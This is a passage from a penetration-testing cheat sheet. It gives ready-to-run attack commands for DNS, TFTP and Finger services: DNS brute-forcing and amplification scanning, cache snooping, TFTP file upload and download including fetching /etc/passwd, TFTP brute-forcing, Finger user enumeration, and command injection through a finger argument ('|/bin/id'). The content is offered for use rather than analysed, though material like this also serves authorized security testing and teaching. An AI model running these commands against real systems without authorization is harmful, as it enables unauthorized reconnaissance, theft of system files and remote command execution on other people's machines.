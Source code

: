 ### Brute Force
```bash
nmap --script dns-brute www.example.com -sn -n -Pn
```
```
use auxiliary/gather/dns_bruteforce
```
### DNS Amplification Scanner
```
auxiliary/scanner/dns/dns_amp
```
### DNS Non-Recursive Record Scraper
```bash
nmap -sU -p 53 --script dns-cache-snoop.nse <IP>
```
```
use auxiliary/gather/dns_cache_scraper
```
### Configuration Files
* host.conf
* resolv.conf
* named.conf



## 69 - TFTP
### Enumeration
```bash
tftp <IP> PUT local_file
tftp <IP> GET conf.txt (or other files)

# Solarwinds TFTP server
tftp – i <IP> GET /etc/passwd (old Solaris)
```
### Bruteforcing
```
use auxiliary/scanner/tftp/tftpbrute
```



## 79 - Finger
### User enumeration
```
finger root example.com
finger 'a b c d e f g h' @example.com
finger admin@example.com
finger user@example.com
finger 0@example.com
finger .@example.com
finger **@example.com
finger test@example.com
finger @example.com
```
```bash
nmap -sV -sC <target>
```
```
use auxiliary/scanner/finger/finger_users
```
### Command execution
```bash
finger "|/bin/id@example.com"
```